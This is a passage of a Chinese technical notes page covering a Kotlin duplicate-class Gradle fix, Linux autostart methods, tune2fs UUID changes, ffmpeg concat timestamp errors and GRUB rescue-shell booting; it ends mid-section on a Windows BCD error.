class="selector-class">.jetbrains</span><span class="selector-class">.kotlin</span>:kotlin-stdlib-jdk8:<span class="number">1.6</span>.<span class="number">21</span>)</span><br><span class="line">Duplicate class kotlin<span class="selector-class">.random</span><span class="selector-class">.jdk8</span><span class="selector-class">.PlatformThreadLocalRandom</span> found <span class="keyword">in</span> modules kotlin-stdlib-<span class="number">1.8</span>.<span class="number">10</span> (org<span class="selector-class">.jetbrains</span><span class="selector-class">.kotlin</span>:kotlin-stdlib:<span class="number">1.8</span>.<span class="number">10</span>) and kotlin-stdlib-jdk8-<span class="number">1.6</span>.<span class="number">21</span> (org<span class="selector-class">.jetbrains</span><span class="selector-class">.kotlin</span>:kotlin-stdlib-jdk8:<span class="number">1.6</span>.<span class="number">21</span>)</span><br><span class="line">Duplicate class kotlin<span class="selector-class">.streams</span><span class="selector-class">.jdk8</span><span class="selector-class">.StreamsKt</span> found <span class="keyword">in</span> modules kotlin-stdlib-<span class="number">1.8</span>.<span class="number">10</span> (org<span class="selector-class">.jetbrains</span><span class="selector-class">.kotlin</span>:kotlin-stdlib:<span class="number">1.8</span>.<span class="number">10</span>) and kotlin-stdlib-jdk8-<span class="number">1.6</span>.<span class="number">21</span> (org<span class="selector-class">.jetbrains</span><span class="selector-class">.kotlin</span>:kotlin-stdlib-jdk8:<span class="number">1.6</span>.<span class="number">21</span>)</span><br><span class="line">Duplicate class kotlin<span class="selector-class">.streams</span><span class="selector-class">.jdk8</span>.StreamsKt<span class="variable">$asSequence</span>$<span class="variable">$inlined</span><span class="variable">$Sequence</span>$<span class="number">1</span> found <span class="keyword">in</span> modules kotlin-stdlib-<span class="number">1.8</span>.<span class="number">10</span> (org<span class="selector-class">.jetbrains</span><span class="selector-class">.kotlin</span>:kotlin-stdlib:<span class="number">1.8</span>.<span class="number">10</span>) and kotlin-stdlib-jdk8-<span class="number">1.6</span>.<span class="number">21</span> (org<span class="selector-class">.jetbrains</span><span class="selector-class">.kotlin</span>:kotlin-stdlib-jdk8:<span class="number">1.6</span>.<span class="number">21</span>)</span><br><span class="line">Duplicate class kotlin<span class="selector-class">.streams</span><span class="selector-class">.jdk8</span>.StreamsKt<span class="variable">$asSequence</span>$<span class="variable">$inlined</span><span class="variable">$Sequence</span>$<span class="number">2</span> found <span class="keyword">in</span> modules kotlin-stdlib-<span class="number">1.8</span>.<span class="number">10</span> (org<span class="selector-class">.jetbrains</span><span class="selector-class">.kotlin</span>:kotlin-stdlib:<span class="number">1.8</span>.<span class="number">10</span>) and kotlin-stdlib-jdk8-<span class="number">1.6</span>.<span class="number">21</span> (org<span class="selector-class">.jetbrains</span><span class="selector-class">.kotlin</span>:kotlin-stdlib-jdk8:<span class="number">1.6</span>.<span class="number">21</span>)</span><br><span class="line">Duplicate class kotlin<span class="selector-class">.streams</span><span class="selector-class">.jdk8</span>.StreamsKt<span class="variable">$asSequence</span>$<span class="variable">$inlined</span><span class="variable">$Sequence</span>$<span class="number">3</span> found <span class="keyword">in</span> modules kotlin-stdlib-<span class="number">1.8</span>.<span class="number">10</span> (org<span class="selector-class">.jetbrains</span><span class="selector-class">.kotlin</span>:kotlin-stdlib:<span class="number">1.8</span>.<span class="number">10</span>) and kotlin-stdlib-jdk8-<span class="number">1.6</span>.<span class="number">21</span> (org<span class="selector-class">.jetbrains</span><span class="selector-class">.kotlin</span>:kotlin-stdlib-jdk8:<span class="number">1.6</span>.<span class="number">21</span>)</span><br><span class="line">Duplicate class kotlin<span class="selector-class">.streams</span><span class="selector-class">.jdk8</span>.StreamsKt<span class="variable">$asSequence</span>$<span class="variable">$inlined</span><span class="variable">$Sequence</span>$<span class="number">4</span> found <span class="keyword">in</span> modules kotlin-stdlib-<span class="number">1.8</span>.<span class="number">10</span> (org<span class="selector-class">.jetbrains</span><span class="selector-class">.kotlin</span>:kotlin-stdlib:<span class="number">1.8</span>.<span class="number">10</span>) and kotlin-stdlib-jdk8-<span class="number">1.6</span>.<span class="number">21</span> (org<span class="selector-class">.jetbrains</span><span class="selector-class">.kotlin</span>:kotlin-stdlib-jdk8:<span class="number">1.6</span>.<span class="number">21</span>)</span><br><span class="line">Duplicate class kotlin<span class="selector-class">.text</span><span class="selector-class">.jdk8</span><span class="selector-class">.RegexExtensionsJDK8Kt</span> found <span class="keyword">in</span> modules kotlin-stdlib-<span class="number">1.8</span>.<span class="number">10</span> (org<span class="selector-class">.jetbrains</span><span class="selector-class">.kotlin</span>:kotlin-stdlib:<span class="number">1.8</span>.<span class="number">10</span>) and kotlin-stdlib-jdk8-<span class="number">1.6</span>.<span class="number">21</span> (org<span class="selector-class">.jetbrains</span><span class="selector-class">.kotlin</span>:kotlin-stdlib-jdk8:<span class="number">1.6</span>.<span class="number">21</span>)</span><br><span class="line">Duplicate class kotlin<span class="selector-class">.time</span><span class="selector-class">.jdk8</span><span class="selector-class">.DurationConversionsJDK8Kt</span> found <span class="keyword">in</span> modules kotlin-stdlib-<span class="number">1.8</span>.<span class="number">10</span> (org<span class="selector-class">.jetbrains</span><span class="selector-class">.kotlin</span>:kotlin-stdlib:<span class="number">1.8</span>.<span class="number">10</span>) and kotlin-stdlib-jdk8-<span class="number">1.6</span>.<span class="number">21</span> (org<span class="selector-class">.jetbrains</span><span class="selector-class">.kotlin</span>:kotlin-stdlib-jdk8:<span class="number">1.6</span>.<span class="number">21</span>)</span><br></pre></td></tr></table></figure>
<p>解决：<code>https://youtrack.jetbrains.com/issue/KT-54136/Duplicated-classes-cause-build-failure-if-a-dependency-to-kotlin-stdlib-specified-in-an-android-project</code></p>
<p>添加：</p>
<figure class="highlight openscad"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br></pre></td><td class="code"><pre><span class="line">dependencies &#123;</span><br><span class="line">    modules &#123;</span><br><span class="line">        <span class="function"><span class="keyword">module</span><span class="params">(<span class="string">"org.jetbrains.kotlin:kotlin-stdlib-jdk7"</span>)</span> &#123;</span></span><br><span class="line">            replacedBy(<span class="string">"org.jetbrains.kotlin:kotlin-stdlib"</span>, <span class="string">"kotlin-stdlib-jdk7 is now part of kotlin-stdlib"</span>)</span><br><span class="line">        &#125;</span><br><span class="line">        <span class="function"><span class="keyword">module</span><span class="params">(<span class="string">"org.jetbrains.kotlin:kotlin-stdlib-jdk8"</span>)</span> &#123;</span></span><br><span class="line">            replacedBy(<span class="string">"org.jetbrains.kotlin:kotlin-stdlib"</span>, <span class="string">"kotlin-stdlib-jdk8 is now part of kotlin-stdlib"</span>)</span><br><span class="line">        &#125;</span><br><span class="line">    &#125;</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>
<p>或者（我添加了上面的解决）：</p>
<figure class="highlight isbl"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br></pre></td><td class="code"><pre><span class="line"><span class="variable">dependencies</span> &#123;</span><br><span class="line">    <span class="variable">constraints</span> &#123;</span><br><span class="line">        <span class="function"><span class="title">implementation</span>(<span class="string">"org.jetbrains.kotlin:kotlin-stdlib-jdk7:1.8.0"</span>) &#123;</span></span><br><span class="line"><span class="function">            <span class="title">because</span>(<span class="string">"kotlin-stdlib-jdk7 is now a part of kotlin-stdlib"</span>)</span></span><br><span class="line">        &#125;</span><br><span class="line">        <span class="function"><span class="title">implementation</span>(<span class="string">"org.jetbrains.kotlin:kotlin-stdlib-jdk8:1.8.0"</span>) &#123;</span></span><br><span class="line"><span class="function">            <span class="title">because</span>(<span class="string">"kotlin-stdlib-jdk8 is now a part of kotlin-stdlib"</span>)</span></span><br><span class="line">        &#125;</span><br><span class="line">    &#125;</span><br><span class="line">&#125;</span><br></pre></td></tr></table></figure>
<h4 id="Linux设置开机启动的方法"><a href="#Linux设置开机启动的方法" class="headerlink" title="Linux设置开机启动的方法"></a>Linux设置开机启动的方法</h4><h5 id="一、构建systemd服务"><a href="#一、构建systemd服务" class="headerlink" title="一、构建systemd服务"></a>一、构建<code>systemd</code>服务</h5><blockquote>
<p>同时可参考：<a href="#Systemd——创建自己的服务">这一节</a></p>
</blockquote>
<p><code>/lib/systemd/system/</code>文件夹中放入自定义的<code>*.service</code>文件</p>
<figure class="highlight ini"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br></pre></td><td class="code"><pre><span class="line"><span class="section">[Unit]</span></span><br><span class="line"><span class="attr">Description</span>=<span class="string">"描述"</span></span><br><span class="line"><span class="attr">After</span>=network.target</span><br><span class="line"><span class="section">[Service]</span></span><br><span class="line"><span class="attr">ExecStart</span>=/home/<span class="variable">$USER</span>/.<span class="variable">$USER</span>/services/autorun.sh</span><br><span class="line"><span class="attr">Type</span>=forking</span><br><span class="line"><span class="attr">User</span>=xxx</span><br><span class="line"><span class="section">[Install]</span></span><br><span class="line"><span class="attr">WantedBy</span>=multi-user.target</span><br></pre></td></tr></table></figure>
<p><code>sudo systemctl daemon-reload</code>后enable一下即可。</p>
<h5 id="二、rc-d和profile-d"><a href="#二、rc-d和profile-d" class="headerlink" title="二、rc.d和profile.d"></a>二、<code>rc.d</code>和<code>profile.d</code></h5><blockquote>
<p>rc.local是Linux系统中一个特殊的<a href="https://www.linuxcool.com/" target="_blank" rel="noopener">脚本</a>文件，它会在系统启动时自动执行。如果我们希望某个应用程序或服务在系统启动时自动运行，可以将其添加到rc.local脚本文件中。</p>
</blockquote>
<p>编辑<code>/etc/rc.local</code>或者<code>/etc/rc.d/rc.local</code>，在文件最后一行添加要执行程序的全路径。</p>
<p>注意：</p>
<ul>
<li>你的命令应该添加在：<code>exit 0</code> 之前</li>
<li>要输入绝对路径</li>
<li>需要给rc.local加执行权限</li>
</ul>
<p>也可以通过<code>/etc/profile.d/</code>：</p>
<p>创建 /etc/profile.d/ 目录（如果该目录不存在）：(如果已经存在这个目录文件就不要创建了直接跳过这一步)</p>
<p><code>sudo mkdir -p /etc/profile.d/</code></p>
<p>创建一个新的脚本文件，添加您要启动的进程命令，授予脚本文件可执行权限。每次用户登录时， <code>/etc/profile.d/【你的脚本】.sh</code> 脚本中添加的命令都会自动运行，您的进程也应该会自动启动。</p>
<p>其他：</p>
<figure class="highlight groovy"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br></pre></td><td class="code"><pre><span class="line"><span class="string">https:</span><span class="comment">//zhuanlan.zhihu.com/p/648558571?utm_id=0</span></span><br><span class="line"><span class="regexp">/etc/</span>inittab 是一个配置文件，程序 <span class="regexp">/sbin/</span>init 根据该文件的内容对系统进行操作，比如设置系统的运行级别（runlevel），运行各级别下所需启动的程序等等。</span><br><span class="line"><span class="regexp">/sbin/</span>init 会首先执行 <span class="regexp">/etc/</span>init.d<span class="regexp">/rcS，然后执行 /</span>etc<span class="regexp">/init.d/</span>rc5</span><br><span class="line"></span><br><span class="line"><span class="regexp">/etc/</span>rcX.d/ 目录下的文件名可以分为 <span class="number">3</span> 部分——S序号 文件名称。S：start，表示需要开机运行的程序，与之对应的是 K——kill，表示开机需要停止的程序；</span><br><span class="line">序号：一个两位的数字，范围为 <span class="number">01</span>~<span class="number">99</span>，表示启动的顺序，数值小的优先启动；</span><br><span class="line">文件名称：英文名称（我没见过中文的），也表示启动顺序，按照 a~z 的顺序启动。如果两个文件有相同的序号，那么就按照文件名称中字母的顺序进行启动；</span><br><span class="line">比如，在 <span class="regexp">/etc/</span>rc5.d/ 目录下有两个文件，分别为 S99atest 和 S99btest。那么，系统启动时会优先执行 S99atest。</span><br></pre></td></tr></table></figure>
<h5 id="三、-etc-init-d"><a href="#三、-etc-init-d" class="headerlink" title="三、/etc/init.d"></a>三、<code>/etc/init.d</code></h5><p>Linux在<code>/etc/rc.d/init.d</code>下有很多的文件，每个文件都是可以看到内容的，其实都是一些shell脚本或者可执行二进制文件。Linux开机的时候，会加载运行<code>/etc/init.d</code>目录下的程序，因此我们可以把想要自动运行的脚本放到这个目录下即可。系统服务的启动就是通过这种方式实现的。</p>
<figure class="highlight bash"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br><span class="line">14</span><br><span class="line">15</span><br><span class="line">16</span><br></pre></td><td class="code"><pre><span class="line"><span class="meta">#!/bin/sh</span></span><br><span class="line"><span class="comment">#</span></span><br><span class="line"><span class="comment"># my-service: Start/stop My Service.</span></span><br><span class="line"><span class="comment">#</span></span><br><span class="line"><span class="keyword">case</span> <span class="string">"<span class="variable">$1</span>"</span> <span class="keyword">in</span></span><br><span class="line">  start)</span><br><span class="line">    /usr/bin/my-service &amp;</span><br><span class="line">    ;;</span><br><span class="line">  stop)</span><br><span class="line">    killall my-service</span><br><span class="line">    ;;</span><br><span class="line">  *)</span><br><span class="line">    <span class="built_in">echo</span> <span class="string">"Usage:<span class="variable">$0</span>&#123;start|stop&#125;"</span></span><br><span class="line">    <span class="built_in">exit</span> 1</span><br><span class="line"><span class="keyword">esac</span></span><br><span class="line"><span class="built_in">exit</span> 0</span><br></pre></td></tr></table></figure>
<h5 id="四、使用autostart文件夹"><a href="#四、使用autostart文件夹" class="headerlink" title="四、使用autostart文件夹"></a>四、使用<code>autostart</code>文件夹</h5><p>在<strong>Linux桌面环境</strong>中，我们可以使用autostart文件夹来管理自启动应用程序。<code>autostart</code>文件夹位于<code>~/.config/autostart</code>目录下，我们只需要将应用程序的<code>.desktop</code>文件复制到该目录下即可实现开机自启动。</p>
<figure class="highlight ini"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br></pre></td><td class="code"><pre><span class="line"><span class="section">[Desktop Entry]</span></span><br><span class="line"><span class="attr">Type</span>=Application</span><br><span class="line"><span class="attr">Name</span>=My Application</span><br><span class="line"><span class="attr">Exec</span>=/usr/bin/my-application</span><br></pre></td></tr></table></figure>
<p>常见的文件夹有：</p>
<ul>
<li><code>/etc/xdg/autostart</code></li>
<li><code>~/.config/autostart</code></li>
</ul>
<h5 id="五、其他"><a href="#五、其他" class="headerlink" title="五、其他"></a>五、其他</h5><ul>
<li>使用chkconfig管理服务</li>
<li>crontab</li>
<li>upstart</li>
</ul>
<h4 id="修改EXT硬盘分区的UUID"><a href="#修改EXT硬盘分区的UUID" class="headerlink" title="修改EXT硬盘分区的UUID"></a>修改EXT硬盘分区的UUID</h4><p><code>tune2fs /dev/sdb1 -U [uuid]</code></p>
<p>生成新的UUID并修改:</p>
<p><code>uuidgen | xargs tune2fs /dev/sdb1 -U</code></p>
<h4 id="Ffpmeg-concat合并视频时：-mp4-00000249e9f01480-Non-monotonous-DTS-in-output-stream-0-1-previous-36963852-current-36597661-changing-to-36963853-This-may-result-in-incorrect-timestamps-in-the-output-file"><a href="#Ffpmeg-concat合并视频时：-mp4-00000249e9f01480-Non-monotonous-DTS-in-output-stream-0-1-previous-36963852-current-36597661-changing-to-36963853-This-may-result-in-incorrect-timestamps-in-the-output-file" class="headerlink" title="Ffpmeg concat合并视频时：[mp4 @ 00000249e9f01480] Non-monotonous DTS in output stream 0:1;  previous: 36963852, current: 36597661; changing to 36963853. This may  result in incorrect timestamps in the output file."></a>Ffpmeg concat合并视频时：<code>[mp4 @ 00000249e9f01480] Non-monotonous DTS in output stream 0:1;  previous: 36963852, current: 36597661; changing to 36963853. This may  result in incorrect timestamps in the output file.</code></h4><blockquote>
<p><code>[mp4 @ 0x561705221940] Non-monotonous DTS in output stream 0:0; previous: 360023995, current: 308168863; changing to 360023996. This may result in incorrect timestamps in the output file.</code></p>
</blockquote>
<p>如果各个视频文件中的音频采样率不一致导致，于是将这些视频文件的音频按指定采样率重新采样</p>
<p><code>ffmpeg.exe -i a.mp4 -ac 1 -ar 44100 -vcodec copy a_re.mp4</code></p>
<p>如果仍不能解决，请尝试：</p>
<blockquote>
<p><code>https://video.stackexchange.com/questions/15468/non-monotonous-dts-on-concat-ffmpeg</code></p>
<p><code>https://trac.ffmpeg.org/wiki/Concatenate</code></p>
</blockquote>
<ol>
<li><p>全部转换为MTS：</p>
<figure class="highlight angelscript"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line">ffmpeg -i clip<span class="number">-1.</span>MOV -q <span class="number">0</span> clip<span class="number">-1.</span>MTS</span><br><span class="line">ffmpeg -i clip<span class="number">-2.</span>MOV -q <span class="number">0</span> clip<span class="number">-2.</span>MTS</span><br></pre></td></tr></table></figure>
</li>
<li><p>修改合并文件列表</p>
<figure class="highlight mel"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br></pre></td><td class="code"><pre><span class="line"><span class="keyword">file</span> <span class="keyword">clip</span><span class="number">-1.</span>MTS</span><br><span class="line"><span class="keyword">file</span> <span class="keyword">clip</span><span class="number">-2.</span>MTS</span><br></pre></td></tr></table></figure>
</li>
<li><p>合并：<code>ffmpeg -f concat -i mylist.txt -c copy output.MTS</code></p>
</li>
</ol>
<h3 id="GRUB——启动引导问题"><a href="#GRUB——启动引导问题" class="headerlink" title="GRUB——启动引导问题"></a>GRUB——启动引导问题</h3><h4 id="使用-GRUB-命令行——grub-gt-和grub-rescue-gt"><a href="#使用-GRUB-命令行——grub-gt-和grub-rescue-gt" class="headerlink" title="使用 GRUB 命令行——grub&gt;和grub rescue&gt;"></a>使用 GRUB 命令行——<code>grub&gt;</code>和<code>grub rescue&gt;</code></h4><blockquote>
<p>MBR 太小,不足以存储所有的 GRUB 模组，所以 MBR 里面只有启动目录和一些很基本的命令。GRUB 的主要功能通过 <code>/boot/grub</code> 里的模组实现，按需加载。出现错误时，GRUB 可能不能引导启动（比如磁盘分区发生了变化）。这时候，一般会出现命令行界面。</p>
</blockquote>
<p>GRUB 不止提供一个 shell，如果 GRUB 不能读取到启动目录配置，但是能找到磁盘，你很可能会进入 “正常” shell：</p>
<figure class="highlight shell"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line"><span class="meta">grub&gt;</span></span><br></pre></td></tr></table></figure>
<p>如果有更严重的问题（比如 GRUB 找不到必须的文件了），GRUB 就可能会让你进入 “救急” shell：</p>
<figure class="highlight crystal"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">grub <span class="keyword">rescue</span>&gt;</span><br></pre></td></tr></table></figure>
<h5 id="GRUB-gt-SHELL"><a href="#GRUB-gt-SHELL" class="headerlink" title="GRUB &gt; SHELL"></a>GRUB &gt; SHELL</h5><h6 id="使用命令行引导操作系统"><a href="#使用命令行引导操作系统" class="headerlink" title="使用命令行引导操作系统"></a>使用命令行引导操作系统</h6><figure class="highlight shell"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line"><span class="meta">grub&gt;</span></span><br></pre></td></tr></table></figure>
<p>可以使用 GRUB 命令行引导操作系统，一个典型的应用场景是通过“chainloading”来引导储存在一个驱动器或者分区中的 Windows 或 Linux 系统。</p>
<p>ChainLoading 的意思是用当前的启动加载器去载入另一个启动加载器，所以叫做<strong>链式</strong>加载。</p>
<p>要被加载的另一个启动加载器可能嵌入在一个有分区表的磁盘的头部 (MBR)，或在一个未分区磁盘或者一个分区的头部 (VBR)，也可能在使用 UEFI 的情形下是一个 EFI 可执行文件。</p>
<ol>
<li><p>链式加载一个分区的 VBR</p>
<figure class="highlight gams"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br></pre></td><td class="code"><pre><span class="line"><span class="keyword">set</span> root=(hdX,Y)</span><br><span class="line">chainloader <span class="comment">+1</span></span><br><span class="line">boot</span><br></pre></td></tr></table></figure>
<p>X=0,1,2… Y=1,2,3…</p>
<p>比如链式加载一个位于首磁盘,首分区上的 Windows：</p>
<figure class="highlight angelscript"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br></pre></td><td class="code"><pre><span class="line"><span class="keyword">set</span> root=(hd0,<span class="number">1</span>)</span><br><span class="line">chainloader +<span class="number">1</span></span><br><span class="line">boot</span><br></pre></td></tr></table></figure>
<p>同样也可以使用 GRUB 链式加载另一个分区引导扇区上的 GRUB。</p>
</li>
<li><p>链式加载磁盘的 MBR 或未分区磁盘的 VBR</p>
<figure class="highlight routeros"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br></pre></td><td class="code"><pre><span class="line"><span class="builtin-name">set</span> <span class="attribute">root</span>=hdX</span><br><span class="line">chainloader +1</span><br><span class="line">boot</span><br></pre></td></tr></table></figure>
</li>
<li><p>链式加载 UEFI 模式下安装的 Windows/Linux</p>
<figure class="highlight gams"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br></pre></td><td class="code"><pre><span class="line">insmod fat</span><br><span class="line"><span class="keyword">set</span> root=(hd0,gpt4)</span><br><span class="line">chainloader <span class="comment">($&#123;root&#125;)</span>/EFI/<span class="comment">Microsoft</span>/Boot/<span class="comment">bootmgfw.efi</span></span><br><span class="line">boot</span><br></pre></td></tr></table></figure>
<p><code>insmod fat</code> 用来加载 FAT 文件系统模块，以访问 EFI 系统分区上的 Windows 启动加载器。 <code>(hd0,gpt4)</code> 或 <code>/dev/sda4</code> 是该示例中的 EFI 系统分区。 <code>chainloader</code> 一行中的条目用来指定需要被链式加载的 .efi 文件。</p>
</li>
</ol>
<h6 id="分页支持"><a href="#分页支持" class="headerlink" title="分页支持"></a>分页支持</h6><p>GRUB 支持对长输出进行分页（比如运行 <code>help</code> 的输出）。不过只能在正常 shell 中支持，在救急 shell 中则不支持。开启分页支持需要在 GRUB 命令行中键入：</p>
<figure class="highlight routeros"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">sh:grub&gt; <span class="builtin-name">set</span> <span class="attribute">pager</span>=1</span><br></pre></td></tr></table></figure>
<h5 id="GRUB-RESCUE-gt-SHELL"><a href="#GRUB-RESCUE-gt-SHELL" class="headerlink" title="GRUB RESCUE &gt; SHELL"></a>GRUB RESCUE &gt; SHELL</h5><h6 id="GRUB-救急与加密启动"><a href="#GRUB-救急与加密启动" class="headerlink" title="GRUB 救急与加密启动"></a>GRUB 救急与加密启动</h6><p>在使用加密启动，而你没法键入正确的密码的时候，就会进入 GRUB 救急命令行。</p>
<p>这个救急命令行只有有限的功能，可以使用下面的命令来完成启动：</p>
<figure class="highlight crystal"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br></pre></td><td class="code"><pre><span class="line">grub <span class="keyword">rescue</span>&gt; cryptomount &lt;分区&gt;</span><br><span class="line">grub <span class="keyword">rescue</span>&gt; insmod normal</span><br><span class="line">grub <span class="keyword">rescue</span>&gt; normal</span><br></pre></td></tr></table></figure>
<h6 id="开机进入GRUB"><a href="#开机进入GRUB" class="headerlink" title="开机进入GRUB"></a>开机进入GRUB</h6><p>如果 GRUB 直接就启动到了救急控制台下，而且没报错，这可能是因为如下两种原因：</p>
<ul>
<li>可能是因为 <code>grub.cfg</code> 丢失或者位置不对。如果 GRUB UEFI 安装时设定了 <code>--boot-directory</code> 参数，而 <code>grub.cfg</code> 文件却不在那里，就会发生这样的问题。</li>
<li>如果启动分区的分区号发生了变化（这个分区号会被直接编码到 <code>grubx64.efi</code> 文件中），也会出现这个问题。</li>
</ul>
<p>救急模式下的 shell 是正常 shell 的一个严格的子集，其支持的功能更少。如果不幸进入了救急模式的 shell 里，首先尝试加载 normal 模块，然后启动正常 shell：</p>
<figure class="highlight gams"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br><span class="line">5</span><br><span class="line">6</span><br><span class="line">7</span><br><span class="line">8</span><br><span class="line">9</span><br><span class="line">10</span><br><span class="line">11</span><br><span class="line">12</span><br><span class="line">13</span><br></pre></td><td class="code"><pre><span class="line">grub rescue&gt; <span class="keyword">set</span> prefix=(hdX,Y)/boot/grub</span><br><span class="line">grub <span class="comment">rescue&gt; insmod (hdX,Y)</span>/boot/<span class="comment">grub</span>/i386-pc/<span class="comment">normal.mod</span></span><br><span class="line">rescue:grub&gt; normal</span><br><span class="line"></span><br><span class="line">举例子：</span><br><span class="line"># grub <span class="comment">rescue&gt;</span></span><br><span class="line">ls </span><br><span class="line"># 不停ls磁盘，直到读取到需要的grub，然后启动。</span><br><span class="line">ls <span class="comment">(hd0,gpt1)</span>/boot/<span class="comment">grub</span></span><br><span class="line"><span class="keyword">set</span> <span class="comment">root=(hd0,gpt1)</span>/boot/<span class="comment">grub</span></span><br><span class="line"><span class="keyword">set</span> <span class="comment">prefix=(hd0,gpt1)</span>/boot/<span class="comment">grub</span></span><br><span class="line">insmod <span class="comment">normal</span></span><br><span class="line">normal</span><br></pre></td></tr></table></figure>
<p>GRUB 应急控制台里可用的命令有 <code>insmod</code>，<code>ls</code>，<code>set</code> 和 <code>unset</code>。这个例子里用了 <code>set</code> 和 <code>insmod</code>。<code>set</code> 用来修改变量，<code>insmod</code> 用来载入模组以添加功能。</p>
<p>首先，用户必须知道启动分区 (<code>/boot</code>) 所在位置（是一个独立的分区或者是根目录下的子目录），然后设置：</p>
<figure class="highlight gams"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">grub rescue&gt; <span class="keyword">set</span> prefix=(hdX,Y)/boot/grub</span><br></pre></td></tr></table></figure>
<p>其中 X 是物理驱动器的编号，而 Y 是分区的编号。</p>
<p><strong>注意：</strong> 如果启动分区是个独立的分区，要在路径中省略 <code>/boot</code>（例如键入 <code>set prefix=(hdX,Y)/grub</code>）。</p>
<p>通过加载 <code>linux</code> 模组来扩展命令行的功能：</p>
<figure class="highlight vim"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">grub rescue&gt; insmod i386-<span class="keyword">pc</span>/linux.<span class="keyword">mod</span></span><br></pre></td></tr></table></figure>
<p>或者直接</p>
<figure class="highlight crystal"><table><tr><td class="gutter"><pre><span class="line">1</span><br></pre></td><td class="code"><pre><span class="line">grub <span class="keyword">rescue</span>&gt; insmod linux</span><br></pre></td></tr></table></figure>
<p>这个模组会启动对我们熟悉的 <code>linux</code> 和 <code>initrd</code> 命令的支持。</p>
<p>比如要启动 Arch Linux：</p>
<figure class="highlight gams"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br></pre></td><td class="code"><pre><span class="line"><span class="keyword">set</span> root=(hd0,5)</span><br><span class="line">linux /boot/<span class="comment">vmlinuz-linux root=</span>/dev/<span class="comment">sda5</span></span><br><span class="line">initrd /boot/<span class="comment">initramfs-linux.img</span></span><br><span class="line">boot</span><br></pre></td></tr></table></figure>
<p>如果 <code>/boot</code> 在单独分区上（例如在用 UEFI 的时候），适当地进行修改：</p>
<p><strong>注意：</strong> 因为 boot 是一个单独的分区而不是根分区的一部分，你得手动把它的地址写清楚，格式和前面的 prefix 一样。</p>
<figure class="highlight gams"><table><tr><td class="gutter"><pre><span class="line">1</span><br><span class="line">2</span><br><span class="line">3</span><br><span class="line">4</span><br></pre></td><td class="code"><pre><span class="line"><span class="keyword">set</span> root=(hd0,5)</span><br><span class="line">linux <span class="comment">(hdX,Y)</span>/vmlinuz-linux root=/<span class="comment">dev</span>/sda6</span><br><span class="line">initrd (hdX,Y)/<span class="comment">initramfs-linux.img</span></span><br><span class="line">boot</span><br></pre></td></tr></table></figure>
<p><strong>注意：</strong> 如果你在执行 <code>linux</code> 命令的时候遇到了 <code>error: premature end of file /YOUR_KERNEL_NAME</code>，你可以尝试用 <code>linux16</code> 来替代。</p>
<p>成功启动 Arch Linux 后，用户可以修正 <code>grub.cfg</code> 然后重新安装 GRUB。</p>
<p>为了完全修正错误和重新安装 GRUB，可能需要修改 <code>/dev/sda</code>。详情请参考<a href="https://wiki.archlinux.org/index.php/GRUB_(简体中文" target="_blank" rel="noopener">#安装</a>#安装)章节。</p>
<h4 id="安装GRUB后再安装Windows8——-boot-bcd-报错（错误代码为-0xc000000f）"><a href="#安装GRUB后再安装Windows8——-boot-bcd-报错（错误代码为-0xc000000f）" class="headerlink" title="安装GRUB后再安装Windows8——\boot\bcd 报错（错误代码为 0xc000000f）"></a>安装GRUB后再安装Windows8——<code>\boot\bcd</code> 报错（错误代码为 <code>0xc000000f</code>）</h4><p>在某些情况下，可能在安装 Windows 8 之前就已经安装了GRUB。启动 Windows 时可能会出现<code>\boot\bcd</code> 报错（错误代码为 <code>0xc000000f</code>）。要修复这个问题，可以进入 Wondows Recovery Console（安装磁盘中的 <code>cmd.exe</code>）然后运行：</p>
